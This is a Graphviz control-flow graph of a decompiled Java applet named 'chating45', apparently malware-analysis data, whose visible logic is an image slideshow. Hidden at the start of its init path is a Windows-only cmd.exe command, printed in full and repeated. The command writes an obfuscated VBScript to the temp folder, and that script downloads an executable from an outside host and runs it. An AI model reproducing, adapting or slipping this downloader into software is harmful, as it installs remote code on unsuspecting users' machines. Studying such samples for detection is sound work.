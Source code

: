 digraph "" {
    "r0 := @this: chating45"
    "push \"os.name\""
    "r0 := @this: chating45"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"win\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"win\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"win\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt load.r r0"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r0";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "iflt load.r r0"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\R4D6C3Q2.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\R4D6C3Q2.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\R4D6C3Q2.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\R4D6C3Q2.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\R4D6C3Q2.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\R4D6C3Q2.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\R4D6C3Q2.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\R4D6C3Q2.vbs & echo N8VObVe37C.Open >> %temp%\\R4D6C3Q2.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\R4D6C3Q2.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\R4D6C3Q2.vbs & echo Function BinaryGetURL(URL) >> %temp%\\R4D6C3Q2.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\R4D6C3Q2.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\R4D6C3Q2.vbs & echo YK16ggjQQ.Send >> %temp%\\R4D6C3Q2.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\R4D6C3Q2.vbs & echo End Function >> %temp%\\R4D6C3Q2.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\U6M8S5U6.exe\\\" >> %temp%\\R4D6C3Q2.vbs & start %temp%\\R4D6C3Q2.vbs http://java2011s.fileave.com/java.exe %temp%\\U6M8S5U6.exe\""
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\R4D6C3Q2.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\R4D6C3Q2.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\R4D6C3Q2.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\R4D6C3Q2.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\R4D6C3Q2.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\R4D6C3Q2.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\R4D6C3Q2.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\R4D6C3Q2.vbs & echo N8VObVe37C.Open >> %temp%\\R4D6C3Q2.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\R4D6C3Q2.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\R4D6C3Q2.vbs & echo Function BinaryGetURL(URL) >> %temp%\\R4D6C3Q2.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\R4D6C3Q2.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\R4D6C3Q2.vbs & echo YK16ggjQQ.Send >> %temp%\\R4D6C3Q2.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\R4D6C3Q2.vbs & echo End Function >> %temp%\\R4D6C3Q2.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\U6M8S5U6.exe\\\" >> %temp%\\R4D6C3Q2.vbs & start %temp%\\R4D6C3Q2.vbs http://java2011s.fileave.com/java.exe %temp%\\U6M8S5U6.exe\"";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\R4D6C3Q2.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\R4D6C3Q2.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\R4D6C3Q2.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\R4D6C3Q2.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\R4D6C3Q2.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\R4D6C3Q2.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\R4D6C3Q2.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\R4D6C3Q2.vbs & echo N8VObVe37C.Open >> %temp%\\R4D6C3Q2.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\R4D6C3Q2.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\R4D6C3Q2.vbs & echo Function BinaryGetURL(URL) >> %temp%\\R4D6C3Q2.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\R4D6C3Q2.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\R4D6C3Q2.vbs & echo YK16ggjQQ.Send >> %temp%\\R4D6C3Q2.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\R4D6C3Q2.vbs & echo End Function >> %temp%\\R4D6C3Q2.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\U6M8S5U6.exe\\\" >> %temp%\\R4D6C3Q2.vbs & start %temp%\\R4D6C3Q2.vbs http://java2011s.fileave.com/java.exe %temp%\\U6M8S5U6.exe\""->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto load.r r0"
    "pop"->"goto load.r r0";
    "load.r r0"
    "goto load.r r0"->"load.r r0";
    "push -1"
    "load.r r0"->"push -1";
    "fieldput <chating45: int w>"
    "push -1"->"fieldput <chating45: int w>";
    "fieldput <chating45: int w>"->"load.r r0";
    "load.r r0"->"push -1";
    "fieldput <chating45: int h>"
    "push -1"->"fieldput <chating45: int h>";
    "fieldput <chating45: int h>"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "fieldput <chating45: boolean whb>"
    "push 0"->"fieldput <chating45: boolean whb>";
    "fieldput <chating45: boolean whb>"->"load.r r0";
    "staticget <java.awt.Color: java.awt.Color white>"
    "load.r r0"->"staticget <java.awt.Color: java.awt.Color white>";
    "specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>"
    "staticget <java.awt.Color: java.awt.Color white>"->"specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>";
    "specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"transition_delay\""
    "load.r r0"->"push \"transition_delay\"";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"
    "push \"transition_delay\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "push 10"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 100"
    "push 10"->"push 100";
    "virtualinvoke <chating45: int fi(java.lang.String,int,int)>"
    "push 100"->"virtualinvoke <chating45: int fi(java.lang.String,int,int)>";
    "fieldput <chating45: int dly>"
    "virtualinvoke <chating45: int fi(java.lang.String,int,int)>"->"fieldput <chating45: int dly>";
    "fieldput <chating45: int dly>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"delay\""
    "load.r r0"->"push \"delay\"";
    "push \"delay\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 1000"
    "push 10"->"push 1000";
    "push 1000"->"virtualinvoke <chating45: int fi(java.lang.String,int,int)>";
    "fieldput <chating45: int wp>"
    "virtualinvoke <chating45: int fi(java.lang.String,int,int)>"->"fieldput <chating45: int wp>";
    "fieldput <chating45: int wp>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"step_count\""
    "load.r r0"->"push \"step_count\"";
    "push \"step_count\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 20"
    "push 10"->"push 20";
    "push 20"->"virtualinvoke <chating45: int fi(java.lang.String,int,int)>";
    "fieldput <chating45: int sc>"
    "virtualinvoke <chating45: int fi(java.lang.String,int,int)>"->"fieldput <chating45: int sc>";
    "fieldput <chating45: int sc>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"mode\""
    "load.r r0"->"push \"mode\"";
    "push \"mode\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 10"->"push 0";
    "push 0"->"virtualinvoke <chating45: int fi(java.lang.String,int,int)>";
    "fieldput <chating45: int modd>"
    "virtualinvoke <chating45: int fi(java.lang.String,int,int)>"->"fieldput <chating45: int modd>";
    "fieldput <chating45: int modd>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <chating45: int modd>"
    "load.r r0"->"fieldget <chating45: int modd>";
    "push 2"
    "fieldget <chating45: int modd>"->"push 2";
    "rem.i"
    "push 2"->"rem.i";
    "rem.i"->"fieldput <chating45: int modd>";
    "fieldput <chating45: int modd>"->"load.r r0";
    "new java.awt.MediaTracker"
    "load.r r0"->"new java.awt.MediaTracker";
    "dup1.r"
    "new java.awt.MediaTracker"->"dup1.r";
    "dup1.r"->"load.r r0";
    "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"
    "load.r r0"->"specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>";
    "fieldput <chating45: java.awt.MediaTracker tracker>"
    "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"->"fieldput <chating45: java.awt.MediaTracker tracker>";
    "fieldput <chating45: java.awt.MediaTracker tracker>"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "fieldput <chating45: int i>"
    "push 1"->"fieldput <chating45: int i>";
    "fieldput <chating45: int i>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"image_valign\""
    "load.r r0"->"push \"image_valign\"";
    "push \"image_valign\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <chating45: java.lang.String ivalign>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <chating45: java.lang.String ivalign>";
    "fieldput <chating45: java.lang.String ivalign>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"image_align\""
    "load.r r0"->"push \"image_align\"";
    "push \"image_align\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <chating45: java.lang.String ialign>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <chating45: java.lang.String ialign>";
    "fieldput <chating45: java.lang.String ialign>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "new java.lang.StringBuilder"
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"image\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"image\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"image\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "fieldget <chating45: int i>"
    "load.r r0"->"fieldget <chating45: int i>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"
    "fieldget <chating45: int i>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <chating45: java.lang.String bs>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <chating45: java.lang.String bs>";
    "fieldput <chating45: java.lang.String bs>"->"load.r r0";
    "fieldget <chating45: java.lang.String bs>"
    "load.r r0"->"fieldget <chating45: java.lang.String bs>";
    "ifnonnull load.r r0"
    "fieldget <chating45: java.lang.String bs>"->"ifnonnull load.r r0";
    "ifnonnull load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <chating45: int i>";
    "fieldget <chating45: int i>"->"push 1";
    "sub.i"
    "push 1"->"sub.i";
    "sub.i"->"fieldput <chating45: int i>";
    "fieldput <chating45: int i>"->"load.r r0";
    "load.r r0"->"fieldget <chating45: int i>";
    "fieldget <chating45: int i>"->"iflt load.r r0";
    "iflt load.r r0"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <chating45: int i>";
    "fieldput <chating45: int num>"
    "fieldget <chating45: int i>"->"fieldput <chating45: int num>";
    "fieldput <chating45: int num>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <chating45: int num>"
    "load.r r0"->"fieldget <chating45: int num>";
    "fieldget <chating45: int num>"->"push 1";
    "add.i"
    "push 1"->"add.i";
    "newarray"
    "add.i"->"newarray";
    "fieldput <chating45: java.awt.Image[] img>"
    "newarray"->"fieldput <chating45: java.awt.Image[] img>";
    "fieldput <chating45: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <chating45: int num>";
    "fieldget <chating45: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <chating45: int[] imgw>"
    "newarray"->"fieldput <chating45: int[] imgw>";
    "fieldput <chating45: int[] imgw>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <chating45: int num>";
    "fieldget <chating45: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <chating45: int[] imgh>"
    "newarray"->"fieldput <chating45: int[] imgh>";
    "fieldput <chating45: int[] imgh>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <chating45: int num>";
    "fieldget <chating45: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <chating45: int[] dur>"
    "newarray"->"fieldput <chating45: int[] dur>";
    "fieldput <chating45: int[] dur>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"fieldput <chating45: int i>";
    "fieldput <chating45: int i>"->"load.r r0";
    "load.r r0"->"fieldget <chating45: int i>";
    "fieldget <chating45: int i>"->"load.r r0";
    "load.r r0"->"fieldget <chating45: int num>";
    "ifcmpgt.i load.r r0"
    "fieldget <chating45: int num>"->"ifcmpgt.i load.r r0";
    "ifcmpgt.i load.r r0"->"load.r r0";
    "fieldget <chating45: java.awt.Image[] img>"
    "load.r r0"->"fieldget <chating45: java.awt.Image[] img>";
    "fieldget <chating45: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"fieldget <chating45: int i>";
    "fieldget <chating45: int i>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>";
    "specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "new java.lang.StringBuffer"
    "load.r r0"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push \"image\"";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "push \"image\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <chating45: int i>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"
    "fieldget <chating45: int i>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>";
    "arraywrite.r"
    "specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "fieldget <chating45: java.awt.MediaTracker tracker>"
    "load.r r0"->"fieldget <chating45: java.awt.MediaTracker tracker>";
    "fieldget <chating45: java.awt.MediaTracker tracker>"->"load.r r0";
    "load.r r0"->"fieldget <chating45: java.awt.Image[] img>";
    "fieldget <chating45: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"fieldget <chating45: int i>";
    "arrayread.r"
    "fieldget <chating45: int i>"->"arrayread.r";
    "arrayread.r"->"load.r r0";
    "load.r r0"->"fieldget <chating45: int i>";
    "push 5"
    "fieldget <chating45: int i>"->"push 5";
    "push 5"->"rem.i";
    "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"
    "rem.i"->"virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>";
    "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <chating45: int i>";
    "fieldget <chating45: int i>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"fieldput <chating45: int i>";
    "fieldput <chating45: int i>"->"goto load.r r0";
    "ifcmpgt.i load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "fieldput <chating45: int durum>"
    "push 0"->"fieldput <chating45: int durum>";
    "fieldput <chating45: int durum>"->"load.r r0";
    "specialinvoke <java.applet.Applet: void show()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: void show()>";
    "specialinvoke <java.applet.Applet: void show()>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Dimension size()>";
    "fieldget <java.awt.Dimension: int width>"
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"->"fieldget <java.awt.Dimension: int width>";
    "fieldget <java.awt.Dimension: int width>"->"fieldput <chating45: int w>";
    "fieldput <chating45: int w>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Dimension size()>";
    "fieldget <java.awt.Dimension: int height>"
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"->"fieldget <java.awt.Dimension: int height>";
    "fieldget <java.awt.Dimension: int height>"->"fieldput <chating45: int h>";
    "fieldput <chating45: int h>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <chating45: int w>"
    "load.r r0"->"fieldget <chating45: int w>";
    "fieldget <chating45: int w>"->"load.r r0";
    "fieldget <chating45: int h>"
    "load.r r0"->"fieldget <chating45: int h>";
    "specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>"
    "fieldget <chating45: int h>"->"specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>";
    "fieldput <chating45: java.awt.Image offi>"
    "specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>"->"fieldput <chating45: java.awt.Image offi>";
    "fieldput <chating45: java.awt.Image offi>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <chating45: java.awt.Image offi>"
    "load.r r0"->"fieldget <chating45: java.awt.Image offi>";
    "virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>"
    "fieldget <chating45: java.awt.Image offi>"->"virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>";
    "fieldput <chating45: java.awt.Graphics offg2>"
    "virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>"->"fieldput <chating45: java.awt.Graphics offg2>";
    "fieldput <chating45: java.awt.Graphics offg2>"->"load.r r0";
    "fieldget <chating45: java.awt.Graphics offg2>"
    "load.r r0"->"fieldget <chating45: java.awt.Graphics offg2>";
    "fieldget <chating45: java.awt.Graphics offg2>"->"push 0";
    "push 0"->"push 0";
    "push 0"->"load.r r0";
    "load.r r0"->"fieldget <chating45: int w>";
    "fieldget <chating45: int w>"->"load.r r0";
    "load.r r0"->"fieldget <chating45: int h>";
    "virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>"
    "fieldget <chating45: int h>"->"virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>";
    "virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.awt.Container getParent()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Container getParent()>";
    "fieldput <chating45: java.awt.Container container>"
    "specialinvoke <java.applet.Applet: java.awt.Container getParent()>"->"fieldput <chating45: java.awt.Container container>";
    "fieldput <chating45: java.awt.Container container>"->"load.r r0";
    "fieldget <chating45: java.awt.Container container>"
    "load.r r0"->"fieldget <chating45: java.awt.Container container>";
    "instanceof"
    "fieldget <chating45: java.awt.Container container>"->"instanceof";
    "ifne load.r r0"
    "instanceof"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <chating45: java.awt.Container container>";
    "virtualinvoke <java.awt.Container: java.awt.Container getParent()>"
    "fieldget <chating45: java.awt.Container container>"->"virtualinvoke <java.awt.Container: java.awt.Container getParent()>";
    "virtualinvoke <java.awt.Container: java.awt.Container getParent()>"->"fieldput <chating45: java.awt.Container container>";
    "fieldput <chating45: java.awt.Container container>"->"goto load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <chating45: java.awt.Container container>";
    "checkcast"
    "fieldget <chating45: java.awt.Container container>"->"checkcast";
    "fieldput <chating45: java.awt.Frame frm>"
    "checkcast"->"fieldput <chating45: java.awt.Frame frm>";
    "fieldput <chating45: java.awt.Frame frm>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"fieldput <chating45: boolean whb>";
    "return"
    "fieldput <chating45: boolean whb>"->"return";
    "iflt load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"fieldput <chating45: int i>";
    "fieldput <chating45: int i>"->"goto load.r r0";
    "ifnonnull load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <chating45: java.lang.String bs>";
    "push \".gif\""
    "fieldget <chating45: java.lang.String bs>"->"push \".gif\"";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"
    "push \".gif\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <chating45: java.lang.String bs>";
    "push \".jpg\""
    "fieldget <chating45: java.lang.String bs>"->"push \".jpg\"";
    "push \".jpg\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <chating45: java.lang.String bs>";
    "push \".png\""
    "fieldget <chating45: java.lang.String bs>"->"push \".png\"";
    "push \".png\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <chating45: int i>";
    "fieldget <chating45: int i>"->"push 1";
    "push 1"->"sub.i";
    "sub.i"->"fieldput <chating45: int i>";
    "fieldput <chating45: int i>"->"load.r r0";
    "load.r r0"->"fieldget <chating45: int i>";
    "fieldget <chating45: int i>"->"iflt load.r r0";
    "iflt load.r r0"->"goto load.r r0";
    "iflt load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"fieldput <chating45: int i>";
    "fieldput <chating45: int i>"->"goto load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <chating45: int i>";
    "fieldget <chating45: int i>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"fieldput <chating45: int i>";
    "fieldput <chating45: int i>"->"goto load.r r0";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
